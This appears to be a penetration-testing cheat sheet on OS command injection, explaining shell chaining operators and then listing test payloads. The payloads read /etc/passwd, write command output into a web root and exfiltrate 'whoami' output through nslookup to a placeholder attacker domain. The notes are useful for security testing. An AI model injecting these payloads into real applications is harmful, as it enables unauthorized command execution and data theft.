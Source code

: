 And Operator &&

> Runs multiply command together but the first command should be succeeded to runs the seconds commands
>
> > `command1 && command2`
> >
> > > `mkdir newdir && cd newdir`

SemiColon ;

> Runs both command each after another regardless of command pass or fail.
>
> > `command1 , command2`
> >
> > > `cd /var/www ; ls`

Backticks

> Runs the backtick command and replace it with the command output.
>
> > `` command1 `command2` ``
> >
> > > `command2` runs first then the output of `command2` is passed as an argument to `command1`.
> > >
> > > > `` echo `date` ``

Dollar Sign Parentheses $()

> Runs the backets command and replace it with command output.
>
> > `command1 $(command2)`
> >
> > `command2` runs first then the output of `command2` is passed as an argument to `command1`
> >
> > > `echo $(date)`

### BlackBox

> Visit all the application pages that user can access.
>
> Enter multiply commands in one line using special characters(External commands) to see if the application runs them.&#x20;
>
> Looks for the application response for error indicating a vulnerability.
>
> Test for blind injection using ping or sleep commands
>
> > **In-band & Out-of-band Command Injection:**
> >
> > * **Shell Metacharacters:**
> >   * **Concatenate Commands:**
> >     * `&& cat /etc/passwd &`
> >     * `& cat /etc/passwd &`
> >     * `|| cat /etc/passwd &`
> >   * **Trigger Time Delay:**
> >     * `&& sleep 10 &`
> >     * `& sleep 10 #`&#x20;
> >     * `&& ping -c 10 127.0.0.1 &`
> >   * **Output to Web Root:**
> >     * `& whoami > /var/www/static/whoami.txt &`
> >     * `& nslookup attacker.com #`
> >   * **Out-of-Band Channel:**
> >     * `& nslookup attacker.server.com &`
> >     * `& nslookup $(whoami).attackerserver.com &`
> >     * `` & nslookup \whoami`.attackerserver.com &` ``
